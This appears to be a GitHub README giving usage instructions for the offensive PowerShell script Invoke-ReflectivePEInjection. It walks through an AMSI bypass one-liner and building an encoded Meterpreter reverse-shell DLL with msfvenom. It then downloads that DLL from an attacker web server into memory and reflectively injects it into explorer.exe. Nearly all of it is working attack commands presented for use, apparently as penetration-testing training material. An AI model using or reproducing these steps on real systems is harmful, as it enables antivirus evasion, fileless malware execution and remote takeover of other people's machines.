 # Invoke-ReflectivePEInjection

The script performs reflection to avoid writing assemblies to disk, after which it parses the desired PE file. It has two separate modes, the first is to reflectively load a DLL or EXE into the same process, and the second is to load a DLL into a remote process.
Since the complete code is almost 3000 lines, we are not going to cover the code itself but rather its usage. We must specify a DLL or EXE as an array of bytes in memory, which allows us to download and execute it without touching the disk.

For this exercise, we will use a Meterpreter DLL. To reflectively load a Meterpreter DLL in explorer.exe, we are going to download it using the PowerShell DownloadData method, place it in a byte array, and look up the desired process ID.
In order to execute the required commands, we must open a PowerShell window with "PowerShell -Exec Bypass", which allows script execution. Once the window is open, we will run the commands below.

# Prerequesities:
1. Bypass PowerShell AMSI:
```powershell
[Ref].Assembly.GetType('System.Management.Automation.Amsi'+[char]85+'tils').GetField('ams'+[char]105+'InitFailed','NonPublic,Static').SetValue($null,$true)
```

# How to use
1. Create a DLL payload using msfvenom and upload it to the attackers web server (_start metasploit listener with same payload parameters_):
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 prependfork=true -f dll -t 300 -e x64/xor_dynamic -o met.dll
```


2. Upload the _Invoke-ReflectivePEInjection.ps1_ script in this repository to the target machine and import it from its location with `Import-Module`:
```powershell
Import-Module .\Invoke-ReflectivePEInjection.ps1
```


3. Load the DLL into a byte array and retrieve the `explorer` process ID.
  (**NOTE:** _change the process based on your target environment, you can also load an executables (.exe) bytes into memory as well_):
```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.191/met.dll')
$procid = (Get-Process -Name explorer).Id
```


4. Supply the byte array (`-PEBytes`) and process ID (`-ProcId`) and execute the script:
```powershell
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

